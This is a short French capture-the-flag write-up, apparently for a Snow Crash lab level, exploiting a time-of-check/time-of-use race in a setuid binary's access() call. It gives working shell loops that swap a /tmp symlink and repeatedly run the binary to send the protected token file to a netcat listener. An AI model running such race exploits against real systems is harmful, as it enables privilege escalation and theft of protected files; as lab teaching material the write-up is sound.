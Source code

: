 Ici, on a aussi un binaire un ficher `token`

On test donc :
```bash
./level10 token
```

Cela nous marque :
```
./level10 file host
	sends file to host if you have access to it
```

On fait un `strings` sur le binaire et on vois qu'il envoie quelque chose sur le port `6969`

On met donc en place un server netcat qui ecoute sur ce port
`nc -l 6969`

En faisant, un `nm` on voit que le programme utilise `access` qui contient une faille.
```
       Warning:  Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates
       a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.   For
       this  reason,  the use of this system call should be avoided.  (In the example just described, a safer alternative would be to tempo‐
       rarily switch the process's effective user ID to the real ID and then call open(2).)
```
Il suffit de bruteforce

```bash
while true ; do ./level10 token ip:6969 ; done
```
Je n'est pas acces à token.

Je décide de le mettre dans le tmp token.

```bash
while true ; do ./level10 /tmp/token ip:6969 ; done
```

Toujours pas.

Après reflection, comme `level10` à des permissions avec l'utilisateur `level10` mais pas `token` pour exploiter la faille de `acces` au mieux, il faudrait swap les deux fichiers avec un lien symbolique par exemple dans `/tmp/`

```bash
while true; do ln -fs ~/level10 /tmp/token; ln -fs ~/token /tmp/token; done
```

puis
```bash
while true ; do ./level10 /tmp/token ip:6969 ; done
```

On fait tourner les 3 programmes et c'est bon !
